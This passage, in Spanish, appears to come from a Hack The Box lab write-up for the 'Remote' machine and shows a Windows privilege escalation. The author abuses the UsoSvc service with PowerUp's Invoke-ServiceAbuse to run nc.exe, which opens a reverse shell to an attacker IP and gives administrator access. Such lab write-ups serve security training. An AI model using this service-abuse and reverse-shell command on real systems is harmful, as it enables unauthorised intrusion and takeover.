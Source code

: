 ![pscheckstxt2](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/remote/pscheckstxt2.png) 

Revisando este archivo no hay algo que resalte.

Pues ya solo nos queda ejecutar la instrucción que el propio **checks** nos brinda: `Invoke-ServiceAbuse -ServiceName 'UsoSvc'` pasándole el comando que queremos ejecutar. 

```powershell
PS > Invoke-ServiceAbuse -ServiceName 'UsoSvc' -Command "c:\Windows\TEMP\\nc.exe 10.10.15.69 443 -e cmd.exe"
```

![psusosvcexp](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/remote/psusosvcexp.png) 

Perfecto, tenemos una reverse Shell como usuario administrador

Las flags serían estas:

![psechoflags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/remote/psechoflags.png) 
